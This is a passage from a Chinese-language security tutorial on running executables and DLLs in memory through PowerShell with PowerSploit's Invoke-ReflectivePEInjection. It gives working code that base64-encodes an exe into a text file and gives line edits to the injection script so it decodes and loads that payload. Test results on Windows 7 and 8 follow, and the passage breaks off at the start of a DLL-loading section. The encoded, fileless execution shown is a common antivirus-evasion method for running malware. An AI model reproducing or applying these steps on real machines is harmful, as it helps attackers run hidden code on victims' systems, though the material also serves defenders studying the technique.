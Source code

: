 首先编写Powershell编码程序，保存为unicode+base64.ps1,代码如下：

```
$PEBytes = [System.IO.File]::ReadAllBytes("C:\test.exe")
$UnicodeBytes  = [System.Text.Encoding]::Unicode.GetBytes($PEBytes)
$Base64Payload = [System.Convert]::ToBase64String($UnicodeBytes)
Set-Content test.b64  -Value $Base64Payload

```

上述代码的功能为读取test.exe，转换成Unicode格式再进行Base64编码，最终保存为test.b64文件

将3-CodeExecution-ReadExe.ps1作如下更改，并保存为4-CodeExecution-Exe(unicode+base64).ps1

第2906行替换为

```
$PEBytes1 = Get-Content (Resolve-Path $PEPath)

$PEBytes2 = [System.Convert]::FromBase64String($PEBytes1)

[Byte[]]$PEBytes = [System.Text.Encoding]::Unicode.GetString($PEBytes2)

```

最后一行替换为

```
Invoke-ReflectivePEInjection -PEPath c:\test\test.b64 -ExeArgs "Arg1" -ForceASLR

```

在win7 x86下，测试成功，但速度很慢，实际使用时只需要做base64编码就好，去掉转成Unicode的功能，只做base64编码，测试文件为base64.ps1、4-CodeExecution-Exe(base64).ps1，测试成功，如图

![这里写图片描述](http://drops.javaweb.org/uploads/images/8f84ef4eb2f6031e91bb089e85ee469eb226f2e3.jpg)

在win7 x64下，换用64位的test.exe，成功  
win8 x86成功，略。  
win8 x64成功，略。

3、利用powershell加载dll
-------------------

参考地址：  
[https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1](https://github.com/PowerShellMafia/PowerSploit/blob/master/CodeExecution/Invoke-ReflectivePEInjection.ps1)  
[https://github.com/PowerShellMafia/PowerSploit/tree/master/CodeExecution/Invoke-ReflectivePEInjection_Resources/DemoDLL](https://github.com/PowerShellMafia/PowerSploit/tree/master/CodeExecution/Invoke-ReflectivePEInjection_Resources/DemoDLL)

示例dll：

使用上述链接中的dll，仅作测试

dll定义了3个导出函数：

```
StringFunc()
VoidFunc()
WStringFunc()

```
